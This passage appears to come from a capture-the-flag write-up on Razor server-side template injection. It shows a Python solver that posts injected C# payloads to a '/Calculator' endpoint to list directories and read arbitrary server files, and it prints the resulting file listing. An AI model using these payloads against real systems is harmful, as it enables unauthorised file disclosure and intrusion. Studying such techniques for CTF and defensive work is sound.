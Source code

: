 ```python

        if not (m := re.findall(r"13371337(.*?)13371337", res.text)):
            print("not matched")
            return

        pprint(m[0].split("SEPARATE"))

    elif file := args.FILE:
        payload = f'13371337)@using System.IO@{{var output=File.ReadAllText("{file}");}}@output@(13371337'
        # print(payload)
        data = {"calculation": payload}
        res = s.post(f"{BASE_URL}/Calculator", data=data)
        res.raise_for_status()

        if not (m := re.findall(r"13371337(.*?)13371337", res.text)):
            print("not matched")
            return

        print(unescape(m[0]))

    elif b64file := args.B64FILE:
        payload = f'13371337)@using System@using System.Text@using System.IO@{{var output=Convert.ToBase64String(Encoding.UTF8.GetBytes(File.ReadAllText("{b64file}")));}}@output@(13371337'
        # print(payload)
        data = {"calculation": payload}
        res = s.post(f"{BASE_URL}/Calculator", data=data)
        res.raise_for_status()

        if not (m := re.findall(r"13371337(.*?)13371337", res.text)):
            print("not matched")
            return

        print(base64.b64decode(unescape(m[0]).encode()).decode())


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py DIR=/app/
['/app/Microsoft.CodeAnalysis.dll',
 '/app/RazorEngine.NetCore.dll',
 '/app/challenge.dll',
 '/app/System.Security.Permissions.dll',
 '/app/zh-Hans',
 '/app/pt-BR',
 '/app/zh-Hant',
 '/app/System.Drawing.Common.dll',
 '/app/fr',
 '/app/challenge.deps.json',
 '/app/web.config',
 '/app/ko',
 '/app/de',
 '/app/cs',
 '/app/tr',
 '/app/wwwroot',
 '/app/pl',
 '/app/System.Windows.Extensions.dll',
 '/app/Microsoft.AspNetCore.Razor.Language.dll',
 '/app/ja',
```

[^1]: [RazorEngine](https://antaris.github.io/RazorEngine/)
[^2]: [Razor syntax reference for ASP.NET Core \| Microsoft Learn](https://learn.microsoft.com/en-us/aspnet/core/mvc/views/razor?view=aspnetcore-8.0)
[^3]: [Razor Cheat Sheet / Quick Reference \[C#/VB.NET Syntax\]](https://razorcheatsheet.com)/
[^4]: [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net)